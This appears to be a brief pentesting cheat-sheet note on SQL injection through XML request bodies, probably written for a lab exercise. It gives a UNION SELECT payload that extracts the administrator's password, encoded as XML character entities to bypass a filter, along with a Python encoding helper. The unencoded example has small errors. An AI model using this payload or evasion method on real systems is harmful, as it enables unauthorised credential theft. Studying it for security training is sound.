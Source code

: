 --- ---

<h2>XML</h2>

**Steps**
- Capture the request from BrupSuite (displaying some sort of XML)

- Find the number of column (You can simply guest from the output of the original request)

- trying to bypass some filter, you might see that simply encoding the request (URL might not work, this is because XML use a specific encoding (More information ---> [HERE](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references)))
	- Also, here we are trying to encode character (this is different then simple url encoding)
	- Using (&#xCHARACTER;), we can see that SQL injection is valid

Query Example
```
#Not Encoded
4 UNION SELECT password WHERE username='administator'-- 

$Encoded
4&#x20;&#x55;NION&#x20;&#x53;ELECT&#x20;password&#x20;&#x46;ROM&#x20;users&#x20;&#x57;HERE&#x20;username=&#x27;administrator&#x27;&#x2D;&#x2D;&#x20;
```

---

<h2>Tool (Python)</h2>

XML encoder (Possible to modify it to encode character)
``` Python
import xml.sax.saxutils

# Define the string to be encoded
string = "this is a string to be XML encoded"

# Encode the string using the escape() method
encoded_string = xml.sax.saxutils.escape(string, {
    "'": "&#x27;",  # Single quote
    '"': "&#x22;",  # Double quote
    "&": "&#x26;",  # Ampersand
    "<": "&#x3c;",  # Less than
    ">": "&#x3e;",  # Greater than
    " ": "&#x20;"   # Space
})

# Print the encoded string
print(encoded_string)
```